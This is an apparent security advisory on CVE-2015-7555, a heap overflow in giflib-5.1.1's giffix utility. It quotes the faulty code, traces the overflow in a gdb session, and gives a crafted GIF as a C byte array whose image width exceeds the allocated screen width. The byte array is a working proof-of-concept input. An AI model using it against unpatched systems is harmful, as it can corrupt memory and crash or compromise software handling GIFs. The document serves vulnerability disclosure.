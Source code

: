 #+title: giflib: heap overflow in giffix (CVE-2015-7555)
#+author: Hans Jerry Illikainen
#+email: hji@dyntopia.com
* About

giflib[1] is a library for working with GIF images.  It also provides
several command-line utilities.


* CVE-2015-7555

A heap overflow may occur in the giffix utility included in
giflib-5.1.1 when processing records of the type
~IMAGE_DESC_RECORD_TYPE~ due to the allocated size of ~LineBuffer~
equaling the value of the logical screen width, ~GifFileIn->SWidth~,
while subsequently having ~GifFileIn->Image.Width~ bytes of data written
to it.


giflib-5.1.1/util/giffix.c #35..194:
#+begin_src c
int main(int argc, char **argv)
{
    [...]
    if ((LineBuffer = (GifRowType) malloc(GifFileIn->SWidth)) == NULL)
        GIF_EXIT("Failed to allocate memory required, aborted.");

    /* Scan the content of the GIF file and load the image(s) in: */
    do {
        [...]
        switch (RecordType) {
            case IMAGE_DESC_RECORD_TYPE:
                if (DGifGetImageDesc(GifFileIn) == GIF_ERROR)
                    QuitGifError(GifFileIn, GifFileOut);
                [...]
                Width = GifFileIn->Image.Width;
                Height = GifFileIn->Image.Height;
                [...]
                /* Find the darkest color in color map to use as a filler. */
                ColorMap = (GifFileIn->Image.ColorMap ? GifFileIn->Image.ColorMap :
                                                     GifFileIn->SColorMap);
                for (i = 0; i < ColorMap->ColorCount; i++) {
                    j = ((int) ColorMap->Colors[i].Red) * 30 +
                        ((int) ColorMap->Colors[i].Green) * 59 +
                        ((int) ColorMap->Colors[i].Blue) * 11;
                    if (j < ColorIntens) {
                        ColorIntens = j;
                        DarkestColor = i;
                    }
                }

                /* Load the image, and dump it. */
                for (i = 0; i < Height; i++) {
                    GifQprintf("\b\b\b\b%-4d", i);
                    if (DGifGetLine(GifFileIn, LineBuffer, Width)
                        == GIF_ERROR) break;
                    if (EGifPutLine(GifFileOut, LineBuffer, Width)
                        == GIF_ERROR) QuitGifError(GifFileIn, GifFileOut);
                }

                if (i < Height) {
                    [...]
                    /* Fill in with the darkest color in color map. */
                    for (j = 0; j < Width; j++)
                        LineBuffer[j] = DarkestColor;
                    for (; i < Height; i++)
                        if (EGifPutLine(GifFileOut, LineBuffer, Width)
                            == GIF_ERROR) QuitGifError(GifFileIn, GifFileOut);
                }
                break;
            [...]
        }
    }
    while (RecordType != TERMINATE_RECORD_TYPE);
    [...]
}
#+end_src

#+begin_src sh
$ gdb -q --args ./giffix heap.gif
Reading symbols from ./giffix...done.
(gdb) b util/giffix.c:94
Breakpoint 1 at 0x401131: file giffix.c, line 94.
(gdb) b util/giffix.c:148
Breakpoint 2 at 0x401449: file giffix.c, line 148.
(gdb) b util/giffix.c:149
Breakpoint 3 at 0x401452: file giffix.c, line 149.

(gdb) commands 3
Type commands for breakpoint(s) 3, one per line.
End with a line saying just "end".
>printf "%p, 0x%02x\n", LineBuffer+j, DarkestColor
>c
>end

(gdb) r
[...]
Breakpoint 1, main (argc=2, argv=0x7fffffffe6b8) at giffix.c:94
94      if ((LineBuffer = (GifRowType) malloc(GifFileIn->SWidth)) == NULL)

(gdb) p GifFileIn->SWidth
$1 = 1

(gdb) c
[...]
Breakpoint 2, main (argc=2, argv=0x7fffffffe6b8) at giffix.c:148
148             for (j = 0; j < Width; j++)

(gdb) p Width
$2 = 255

(gdb) c
Continuing.

Breakpoint 3, main (argc=2, argv=0x7fffffffe6b8) at giffix.c:149
149             LineBuffer[j] = DarkestColor;
0x618920, 0x01

[...]

Breakpoint 3, main (argc=2, argv=0x7fffffffe6b8) at giffix.c:149
149             LineBuffer[j] = DarkestColor;
0x618940, 0x01

[...]

Breakpoint 3, main (argc=2, argv=0x7fffffffe6b8) at giffix.c:149
149             LineBuffer[j] = DarkestColor;
0x618a1e, 0x01

Program received signal SIGSEGV, Segmentation fault.
0x00007ffff7bd8658 in GifFreeMapObject (Object=0x101010101010101) at gifalloc.c:80
80          (void)free(Object->Colors);
#+end_src


heap.gif:
#+begin_src c
unsigned char heap[] = {
    /* GIF87a */
    0x47, 0x49, 0x46, 0x38, 0x37, 0x61,

    /* DGifGetScreenDesc() */
    0x01, 0x00,         /* GifFile->SWidth */
    0x01, 0x00,         /* GifFile->SHeight */
    0x80,               /* ColorCount = 1 << ((this & 0x07) + 1) */
    0x00,               /* GifFile->SBackGroundColor */
    0x00,               /* GifFile->AspectByte */
    0x11, 0x11, 0x11,   /* GifFile->SColorMap->Colors[0] */
    0x00, 0x00, 0x00,   /* GifFile->SColorMap->Colors[1] */

    /* DGifGetRecordType() */
    0x2c,               /* DESCRIPTOR_INTRODUCER */

    /* DGifGetImageDesc() */
    0x00, 0x00,         /* GifFile->Image.Left */
    0x00, 0x00,         /* GifFile->Image.Top */
    0xff, 0x00,         /* GifFile->Image.Width */
    0x01, 0x00,         /* GifFile->Image.Height */
    0x00,               /* BitsPerPixel = (this & 0x07) + 1 */

    /* DGifSetupDecompress() */
    0x00,               /* CodeSize */

    /* end of image data */
    0x00,

    /* end of gif */
    0x3b
};
#+end_src


* Solution

No fix exists as of yet.


* Footnotes

[1] http://giflib.sourceforge.net/
